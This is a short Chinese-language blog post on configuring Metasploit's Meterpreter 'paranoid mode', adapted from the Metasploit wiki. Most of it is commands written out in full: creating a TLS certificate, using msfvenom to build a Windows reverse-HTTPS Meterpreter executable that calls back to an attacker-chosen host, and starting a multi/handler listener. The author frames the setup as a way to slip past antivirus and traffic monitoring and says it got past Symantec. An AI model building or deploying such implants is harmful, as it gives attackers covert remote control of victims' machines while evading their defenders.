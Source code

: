 ```yaml
---
layout: post
title:  "MSF偏执模式"
date:   2016-11-22 16:00:01 +0800
categories: MSF
tag: Bypass AV 
---
```


* content
{:toc}



在某些环境下，我们需要用到meterpreter的偏执模式(paranoid mode)。

偏执模式在面对接受的请求很多的时候，可以有效过滤筛选回连的请求，只留下自己所需要的。

同时，因为其使用了SSL/TLS 认证，因此在应对流量监控和分析时，有很不错的效果，当然也能够Bypass av(by data stream)。

创建一个SSL/TLS证书
-------------

在kali或者其他带有openssl的环境下：

    $ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
        -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=green-m.github.io" \
        -keyout green-m.github.io.key \
        -out green-m.github.io.crt && \
    cat green-m.github.io.key  green-m.github.io.crt > green-m.github.io.pem && \
    rm -f green-m.github.io.key  green-m.github.io.crt

你可以把green-m.github.io这个URL改成任意你想回连的地址，直接指定相应IP也可以。

如果你能搞到一个受信任的证书颁发机构签名的SSL/TLS证书，那就碉堡了，流量直接畅通无阻。

生成偏执模式的payload
--------------

    msfvenom -p windows/meterpreter/reverse_winhttps LHOST=green-m.github.io LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./green-m.github.io.pem StagerVerifySSLCert=true PayloadUUIDName=Green_m -f exe -o ./Green_m.exe

通过设置PayloadUUIDTracking和PayloadUUIDName可以在监听的时候过滤掉不需要的回连请求。为了Bypass av的需求，你还可以生成shellcode来自己编译。

如果网络环境不好，你还可以使用stageless的payload，-p参数指定windows/meterpreter_reverse_https，其他不用修改。

监听偏执模式
------

    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_winhttps
    set LHOST green-m.github.io
    set LPORT 443
    set HandlerSSLCert ./green-m.github.io.pem
    set IgnoreUnknownPayloads true
    set StagerVerifySSLCert true
    set exitonsession false
    run -j -z

设置HandlerSSLCert和StagerVerifySSLCert参数来使用TLS pinning，IgnoreUnknownPayloads接受白名单的payload。

同上，stageless 修改相应payload。

总结：偏执模式基于SSL/TLS认证过某些流量监控效果应该很不错，测试也过了symantec，仅供参考。
------------------------------------------------


参考文章：https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode#create-a-ssltls-certificate


转载请注明出处：[https://green-m.github.io/2016/11/23/msf-paranoid-mode/](https://green-m.github.io/2016/11/23/msf-paranoid-mode/)
